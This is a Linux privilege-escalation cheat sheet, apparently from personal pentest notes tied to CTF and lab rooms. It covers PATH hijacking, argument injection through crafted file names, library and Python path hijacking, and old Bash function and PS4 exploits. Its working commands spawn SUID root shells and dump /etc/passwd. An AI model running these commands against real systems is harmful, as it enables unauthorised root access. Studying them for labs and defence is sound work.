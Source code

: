 # Injection

<div class="row row-cols-lg-2"><div>

If there is some code that can is executed as another user, for instance, a [scheduled task](tasks.md) or a [program with the SUID bit](perms.md#suidguid-bit), you may be able to modify the code behavior using injection.

➡️ You may need/want to create a [root bash](rootbash.md).
</div><div>

There are basic scenarios in which you can directly exploit the executable, but in other scenarios, you may have to exploit the environment itself. In short, it means you may:

* 🌸 edit the environment variables
* 🌿 edit the files used by the program
* 🎭 create a file named after the parameters of the command. For instance, if the code uses a glob-pattern, the pattern will be replaced with the matching files. So, you may inject parameters.
* 🐦 use a flaw in the script language
* ...
</div></div>

<hr class="sep-both">

## Path Environment variable 🌸

[![linprivesc](../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![linuxprivilegeescalation](../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![mustacchio](../../../_badges/thm-p/mustacchio.svg)](https://tryhackme.com/room/mustacchio)
[![bash_system_1](../../../_badges/rootme/app_script/bash_system_1.svg)](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-1)
[![bash_system_2](../../../_badges/rootme/app_script/bash_system_2.svg)](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-2)

<div class="row row-cols-lg-2"><div>

If you can run a script, you may try to see if the script uses your PATH to work. The easiest way to test that is to empty your PATH.

```shell!
$ bash -c 'export PATH=; <execute the script>'
"xxx" command not found ====> OK!
```

You can then try to replace the command binary by a [rootbash](rootbash.md). 

```
$ ls /tmp/rootbash # assuming you created your rootbash
$ ln -s /tmp/rootbash # replace the command "xxx"
$ bash -c 'export PATH=/tmp:$PATH; <execute the script>'
<your bash is called>
```

⚠️ If you are not able to edit the PATH, try to see if you can write files in a folder in the PATH that is before the original folder.
</div><div>

Unfortunately, this doesn't work when the command is invoked with some options, such as `tail -f /var/log/nginx/access.log`.

The trick is to create a script that launches our command. Refer to [Root Bash Script](rootbash.md).

```shell!
$ ln -s /tmp/root.sh /tmp/xxx # your command
$ bash -c 'export PATH=/tmp:$PATH; <execute the script>'
<your bash is called>
```
</div></div>

<hr class="sep-both">

## Parameters injection  🎭

[![linuxstrengthtraining](../../../_badges/thm/linuxstrengthtraining.svg)](https://tryhackme.com/room/linuxstrengthtraining)
[![linuxprivilegeescalation](../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)

<div class="row row-cols-lg-2"><div>

We can inject arguments when [glob-patterns](/operating-systems/linux/_knowledge/index.md#glob-patterns) are replaced, e.g., by creating file named after the command arguments.

To execute any command manipulating a filename starting with `-`, you need to use `--` such as `rm -- -la` to remove the file `-la`.
</div><div>

For instance, to inject `-la` into `ls *`:

```shell!
$ touch -- -la
$ ls
-la
$ ls * # * was replaced by -la
total 8
drwxr-xr-x 2 xxx xxx 4096 Apr 29 18:50 .
drwxr-xr-x 9 xxx xxx 4096 Apr 29 18:50 ..
-rw-r--r-- 1 xxx xxx    0 Apr 29 18:50 -la
```

</div></div>

<hr class="sep-both">

## Library Hijacking

[![linuxprivilegeescalation](../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)

<div class="row row-cols-lg-2"><div>

Shared Object Hijacking or Linker Hijacking is a technique in which we load a malicious `.so` file when executing a binary such as `ls` in a misconfigured environment.

For instance, we may have write access to a folder such as `/lib` or `/usr/lib` which are used by default when linking an executable. It's also possible that `/etc/ld.so.conf` was misconfigured.

If we found a suspicious binary, we can examine it:

```ps
$ ldd <binary>
$ readelf -d <binary>
```
</div><div>

If the binary has the `RUNPATH` folder set, then, if we can write `.so` to this folder, we can compromise it.

To write a static binary, [refer to LD_PRELOAD](sudo.md#ld_preload).

Misconfigured Python installations may also be vulnerable if we are able to write python script in the module path.

```shell!
$ python3 -c 'import sys; print("\n".join(sys.path))'
```

Then, check every imported package using `pip3 show <package>`. If the package is imported from a location that is below a folder in which you can write to, then you can inject your own code.
</div></div>

<hr class="sep-both">

## Bash scripts failures 🐦

<div class="row row-cols-lg-2"><div>

**Bash versions <4.2-048**: it is possible to create functions named after a path, which allows us to execute a command instead. If the path is accessed by a script, then using `-p`, we can create a bash while inheriting the permissions of its creator.

```bash!
function /some/path { /bin/bash -p; }
export -f /some/path
```
</div><div>

**Bash <4.4**: if debug is enabled, we can inject code in the environment variable PS4 used by bash. If the script has the SUID bit, then using this, we could create a bash with the SUID bit too.

```shell!
$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/; chmod +xs /tmp/bash)' ./script
```
</div></div>

<hr class="sep-both">

## Special scenarios 📚

<div class="row row-cols-lg-2"><div>

As a reminder, if you can execute commands, then refer to [command injection](/cybersecurity/red-team/s3.exploitation/vulns/injection/command.md) for a list of tips and tricks.

<br>

#### Python input() function

[![python_input](../../../_badges/rootme/app_script/python_input.svg)](https://www.root-me.org/en/Challenges/App-Script/Python-input)

This command is used to prompt the user for input. The problem is that we can write python code <small>(e.g., 5+5)</small>.

```py
open('/tmp/passwd_dump', 'w').write(open('/etc/passwd', 'r').read())
```
</div><div>

#### Latex directives

[![latex_input](../../../_badges/rootme/app_script/latex_input.svg)](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Input)

If we can compile LaTeX, we may be able to 

* Execute commands
* Read non-LaTeX files using `\input{path_to_file}` or using `\usepackage{verbatim} \verbatiminput{myfile.txt}` (comments)

#### Bash Script Arguments

[![bash_unquoted](../../../_badges/rootme/app_script/bash_unquoted.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-unquoted-expression-injection)

If the script uses the argument without quoting them nor validating them, we may be able to inject parameters.

```
$ cat xxx.sh
ls $1
$ ./xxx.sh "-la ."
```
</div></div>